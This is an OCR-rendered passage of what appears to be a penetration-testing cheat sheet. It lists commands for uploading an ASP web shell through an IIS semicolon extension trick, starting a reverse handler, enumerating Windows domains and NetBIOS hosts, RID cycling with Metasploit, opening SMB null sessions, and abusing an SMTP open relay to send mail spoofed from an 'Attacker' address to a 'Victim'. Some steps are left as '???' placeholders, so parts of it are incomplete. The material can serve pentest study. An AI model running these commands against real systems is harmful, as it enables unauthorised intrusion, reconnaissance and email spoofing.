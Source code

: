 1) ???

   ```bash
   $ copy shell.txt shell.asp;.txt
   ```

1) Start reverse handler

   ```bash
   ???
   ```

1) Browse to `http://192.168.0.60/shell.asp;.txt`

## Windows Networking Services

Get Domain Information:
```
C:\> nltest /DCLIST:DomainName
C:\> nltest /DCNAME:DomainName
C:\> nltest /DSGETDC:DomainName
```

Netbios Enumeration
```bash
C:\> nbtscan -r 192.168.0.1-100
C:\> nbtscan -f hostfiles.txt
```

enum4linux
```bash
$ enum4linux ???
```

RID Cycling
```bash
meterpreter> use auxiliary/scanner/smb/smb_lookupsid
```

# Null Session in Windows
```bash
C:\ net use \\192.168.0.1\IPC$ "" /u:""
```

# Null Session in Linux
```bash
$ smbclient -L //192.168.99.131
```

## Accessing Email Services

### Metasploit Auxiliarys

SMTP Open Relay Commands
```bash
$ ncat -C 86.54.23.178 25
> HELO mail.co.uk
> MAIL FROM: <Attacker@mail.co.uk>
> RCPT TO: <Victim@email.com>
> DATA
```

